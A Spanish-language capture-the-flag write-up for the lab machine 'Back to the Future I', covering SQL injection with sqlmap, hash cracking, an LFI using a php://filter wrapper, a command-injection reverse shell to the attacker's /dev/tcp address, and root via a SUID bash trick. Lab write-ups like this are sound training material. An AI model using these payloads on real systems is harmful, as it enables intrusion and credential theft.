# 🖥️ Write-Up: [BACK TO THE FUTURE I](https://labs.thehackerslabs.com/machine/119)

## 📌 Información General
    - Nombre de la máquina: Back to the Future I
    - Plataforma: The Hacker Labs
    - Dificultad: Avanzado
    - Creador: d4redevil
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.5.5**

La máquina Back to the Future I tiene la ip **10.0.5.6**

### Descubrimiento de Puertos

Comenzamos enumerando los puertos abiertos de la máquina usando la herramienta **nmap**.



La máquina tiene abiertos los puertos 21, 22, 80 y 3306. Con **nmap** vamos a ver que servicios y versiones se están ejecutando estos puertos.



### Puerto 80

Como hemos visto con **nmap**, se está aplicando **Virtual Hosting**, así que tenemos que añadir el dominio de **hillvalley.thl** al **/etc/hosts**.



Accedemos con el navegador a **hillvalley.thl** y vemos un panel de login.



Vamos a buscar subdirectorios de la web utilizando la herramienta **gobuster**



El subdirectirio de **config.php** nos servirán más adelante.

## 🔥Explotación

Como hemos visto que el puerto 3306 está ejecutando un servicio de MySQL, entendemos que estará vinculado con este panel de login, así que vamos a probar a introducir una comilla simple (') en el campo del user.



Vemos que se produce un **Internal Server Error**, así que vamos a probar a realizar una **SQL Injection** con la herramienta **sqlmap**

```bash
sqlmap --url "http://hillvalley.thl/index.php" --form --batch --dump
```



Obtenemos un usuario, **marty** y un hash de una contraseña. Vamos a guardar este hash en un archivo llamado hash y a intentar romperlo usando **John the Ripper** y una versión reducida del diccionario rockyou que llamaremos **minirock**



Obtenemos la contraseña **andromeda**. Así que con ella y el usuario **marty** vamos a acceder al panel de login.



Si accedemos a los distintos apartados de la web vemos que los recursos se cargan a través de un parámetro "**page**" en la url. Por lo que vamos a intentar un **Local File Inclusion** (LFI).



En el código fuente es más legible.



Tenemos dos usuarios, **marty** y **docbrown**.

Ya que hemos encontrado un **LFI** vamos a probar a usar **wrappers** para ver el contenido del directorio **config.php** que habíamos visto antes, ya que si intentamos acceder a él con el parámtero **page** no podremos ver el código de php.

Usaremos este wrapper, que nos convierte a base64 el contenido del archivo --> **php://filter/convert.base64-encode/resource=config.php**



Y ya tenemos el contenido en base64, si lo decodificamos



Obtenemos la contraseña **t1m3travel**

### Puerto 21 FTP

Vamos a conectarnos al puerto 21 con las credenciales **marty:t1m3travel** y listamos los archivos.



Nos descargamos el **backup.zip** y **.note_to_marty.txt**

En la nota encontramos:
```
Marty, si estás leyendo esto, significa que el Delorean sigue en riesgo.
Tuve que proteger el backup del sitio web. La contraseña es una combinación del modelo del auto y el año del primer viaje temporal... en minúsculas, sin espacios.
¡Nos vemos en el futuro!
—Doc
```

Vamos a construir la contraseña, sabemos que el coche que se utilizó era un **DeLorean** y el año del primer viaje temporal fue **1955**, asi que tendríamos como contraseña **delorean1955**

## 🔑 Acceso SSH

Descomprimos el archivo usando **unzip** y la contraseña **delorean1955** y conseguimos una carpeta project. En su interior tenemos un **id_rsa**, así que lo usaremos para conectarnos por ssh como el usuario **marty**.

```bash
ssh marty @10.0.5.6 -i id_rsa
```
Nos pide un passphrase, por lo que vamos a averiguarlo usando **john**.

Primero usamos:
```bash
ssh2john id_rsa > rsa_hash
```
Y después usamos **john** y la versión reducida del rockyou que usamos anteriormente.



Ahora con el passphrase **metallica1** y la id_rsa nos conectamos por ssh.



Ahí tenemos la **flag de usuario** y también, un archivo interesante **.flux.notes**.

## 🧗 Escalada de Privilegios

### Docbrown

Dentro del archivo **.flux_notes** encontramos el mensaje:

```
Tiempos inestables... aún necesito arreglar el runner para la próxima prueba
```

Nos habla de "runner", así que nos vamos al directorio raíz (/) y vamos a buscar archivos que contengan esa palabra.

```bash
find / -name \*runner\* -type f 2>/dev/null
```
Nos muestra varios resultados pero nos vamos a quedar con **/usr/local/bin/backup_runner**

Es un archivo binario, si aplicamos **strings** para ver las cadenas legibles.


 
Vemos que el argumento que le pasamos al binario se sustituye en el **%s** para formar el nombre del comprimido y no se sanetiza este argumento, por lo que podemos probar a inyectar un comando y comentar el resto del código. Ejecutamos el binario pasándole como argumento `";whoami #"` 



Podemos ejecutar comandos como el usuario **docbrown**, por lo que nos vamos a mandarnos una reverse shell introduciendo `";bash -c 'bash -i >& /dev/tcp/10.0.5.5/443 0>&1' #"` y poniéndonos en escucha en nuestra máquina `nc -nlvp 443`




Ya somos el usuario **docbrown**, ahora vamos a hacer el tratamiento de la **TTY**.



Y ajustamos las dimensiones de la terminal

```bash
stty rows 39 columns 172
```
### Root

Si revisamos los permisos sudoers con `sudo -l`, vemos que podemos ejecutar como root y sin contraseña **/usr/local/bin/time_daemon**




Si lo ejecutamos como sudo, vemos que nos indica que no existe el archivo **/tmp/sync**



Vamos a crear el archivo **sync** en el directorio **/tmp** y le vamos a añadir el siguiente código de bash:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Volvemos a ejecutar el binario como sudo y nos muestra un mensaje de sincronización completa. Esperamos un poco y vemos que la bash tiene permisos **SUID**. Así que usando `/bin/bash -p` seremos root.


